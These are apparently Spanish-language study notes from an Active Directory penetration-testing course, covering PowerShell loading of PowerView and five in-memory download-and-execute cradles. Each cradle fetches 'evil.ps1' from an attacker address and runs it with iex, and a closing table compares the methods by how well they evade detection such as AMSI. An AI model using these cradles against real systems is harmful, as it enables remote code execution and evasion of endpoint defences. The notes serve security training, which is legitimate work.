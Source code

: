 - Para enumeracion se usara powershell
- instalado de fabria en todos los windows
- powershell no es powershell.exe es una dll, **System.Management.Automation.dll**
- 



### COMANDOS

`. C:\AD\Tools\PowerView.ps1` Para cargar un script de powershell

`Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1` para importar un modulo o un script

`Get-Command -Module <modulename>` para listar todos los comandos de un modulo


 `iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')` ``` para descargar un script y cargarlo en memoria


`$ie=New-Object -ComObject InternetExplorer.Application
$ie.visible=$False
$ie.navigate('http://192.168.230.1/evil.ps1')
sleep 5
$response=$ie.Document.body.innerHTML
$ie.quit()
iex $response`  
otro metodo para descargar y cargar en memoria un script

`iex (iwr 'http://192.168.230.1/evil.ps1')` otra manera, iwr=Invoke-WebRequest

`$h=New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','http://192.168.230.1/evil.ps1',$false)
$h.send()
iex $h.responseText
`  una manera más, usando XMLHTTP, una api antigua de microsoft


`$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()` usando una api de .NET


RESUMEN:

| Método                   | Descripción                              | Ventajas                          | Desventajas                         |
|--------------------------|------------------------------------------|-----------------------------------|--------------------------------------|
| `Net.WebClient`         | Descarga y ejecuta en memoria           | Rápido y simple                   | Detectado por AMSI                  |
| `InternetExplorer.Application` | Usa Internet Explorer para descargar y ejecutar | Puede evadir detección en algunos casos | IE está obsoleto y bloqueado en Windows modernos |
| `Invoke-WebRequest`      | Descarga contenido de una URL           | Compatible con PowerShell v3+     | Puede ser bloqueado por restricciones de seguridad |
| `Msxml2.XMLHTTP`        | Usa COM para hacer una solicitud HTTP   | Puede evadir detecciones         | Depende de librerías antiguas       |
| `System.Net.WebRequest` | Usa API de .NET para descargar contenido | Más discreto en algunos entornos  | Puede requerir más permisos         |








